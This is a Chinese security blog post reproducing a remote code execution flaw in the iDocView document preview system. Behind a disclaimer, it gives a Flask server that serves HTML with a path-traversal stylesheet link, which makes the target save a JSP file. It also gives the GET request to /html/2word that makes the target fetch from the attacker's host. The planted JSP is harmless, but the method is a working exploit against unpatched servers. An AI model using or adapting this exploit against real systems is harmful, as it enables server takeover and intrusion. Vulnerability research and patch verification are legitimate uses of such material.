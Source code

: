 #  【0day】i Doc View 漏洞复现   
James  Panda安全   2023-11-24 00:55  
  
声明：该公众号分享的安全工具和项目均来源于网络，仅供安全研究与学习之用，如用于其他用途，由使用者承担全部法律及连带责任，与工具作者和本公众号无关。  
  
现在只对常读和星标的公众号才展示大图推送，建议大家把公众号“  
Panda安全”设为星标，否则可能看不到了！  
  
**0x00 漏洞介绍**  
  
I Doc View在线文档预览系统是由北京卓软在线信息技术有限公司开发的一套系统，用于在Web环境中展示和预览各种文档类型，如文本文档、电子表格、演示文稿、PDF文件等。  
  
攻击者可利用该漏洞使服务器下载恶意文件，获取服务器控制权限。经分析，该漏洞利用难度低，可造成远程代码执行，建议尽快修复。  
  
要求：出网  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/bnErTOz08TjiaiaGIQia0huGsGBhWMMkWCiaAQ8OogJ3ZJCd9ltND5OQYfibxgeL4CRKuyiavJ319vBtbVcF2jNK4ZUg/640?wx_fmt=png&from=appmsg "")  
  
**0x01 影响版本******  
  
iDocView < 13.10.1_20231115  
  
**0x02 漏洞复现**  
  
flash.py  
```
from flask import Flask
app = Flask(__name__)

@app.route('/index.html')
def index():
  return """<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
  <title>title</title>
    <link rel="stylesheet" href="..\\..\\..\\docview\\aaaa.jsp">
</head>
<body>
</body>
</html>"""
@app.route('/..\\..\\..\\docview\\aaaa.jsp')
def jsp():
  return '''<% 
out.print("123");
%>'''

if __name__ == '__main__':
  app.run(host="0.0.0.0", port=39999)
```  
  
发送请求  
```
GET /html/2word?url=http://xxx.xxx.xxx.xxx:39999/index.html HTTP/1.1
Host: 127.0.0.1
Connection: close

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/bnErTOz08TjiaiaGIQia0huGsGBhWMMkWCiaflo45O5597Da3AIsydlZqNja6mU6CHjWKRr5LRsgEapibA7eMkExLEg/640?wx_fmt=png&from=appmsg "")  
  
